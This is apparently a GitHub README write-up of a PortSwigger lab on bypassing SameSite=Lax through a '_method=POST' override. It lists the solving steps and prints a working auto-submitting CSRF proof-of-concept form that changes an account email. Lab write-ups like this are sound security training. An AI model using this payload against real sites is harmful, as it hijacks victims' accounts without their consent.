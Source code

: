 # CSRF - SameSite Lax bypass via method override

## 📌 Lab Details
- **Title**: SameSite Lax bypass via method override
- **Difficulty**: Practitioner
- **Category**: Cross-site Request Forgery
- **Lab URL**: https://portswigger.net/academy/labs/launch/ddae9bffdcb03f70c0ece2fac25e236d84670c553a409d983f4d364a96ed45a3?referrer=%2fweb-security%2fcsrf%2fbypassing-samesite-restrictions%2flab-samesite-lax-bypass-via-method-override

## 🔍 Summary
This lab demonstrates a **CSRF** vulnerability where a site uses `SameSite=Lax` restriction which can be bypassed by using **method** spoofing.

## 🛠 Steps to Solve
1. Log in into the given account.
2. Study the **POST change-email** request to observe that **no CSRF** tokens are being used.
3. Study the **POST login** request to observe that no `SameSite` restriction is used which means that the site will use default `SameSite=Lax` restriciton.
4. In **Burp Repeater** send a `GET` request to change email and observe that only `POST` request are allowed.
5. Use the `method` spoofing method to inject: `GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1`. This request is now accepted.
6. Generate a **CSRF PoC** and inject the payload in the Exploit server:
   ```sh
   <html>
   <body>
    <form action="https://0aa70041043c71ce80b1260600950031.web-security-academy.net/my-account/change-email" method="GET">
			 <input type="hidden" name="_method" value="POST"
      <input type="hidden" name="email" value="wiener&#64;newemail1&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
   </body>
   </html>
   ```

## 📖 Key Takeaways
- **SameSite=Lax** allows cookies on cross-site `GET` navigation but not `POST`.
- Using `_method=POST` on a `GET` request **bypasses method restrictions** if the server honors it.
- **No CSRF tokens + SameSite=Lax + method override = CSRF possible.**

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/e103960f-e179-4fe5-888b-781ffce73dbb)
![image](https://github.com/user-attachments/assets/f57d8efb-d445-4452-9297-7acb80dc01d8)
![image](https://github.com/user-attachments/assets/a1e8000b-e50e-4aa4-b51b-61183b9b943e)
![image](https://github.com/user-attachments/assets/8eae212e-997e-4e5e-9602-9b6d2841e28d)
![image](https://github.com/user-attachments/assets/6744d4d8-ac5e-4a2b-867a-993472767ee9)
![image](https://github.com/user-attachments/assets/27364b60-2eae-4111-a0e4-f7a175b70c34)
![image](https://github.com/user-attachments/assets/538ca9e0-d642-403d-94c4-794e2b2a4a13)
![image](https://github.com/user-attachments/assets/39e82ed8-9e2d-4828-92ad-619c4c7edcfc)
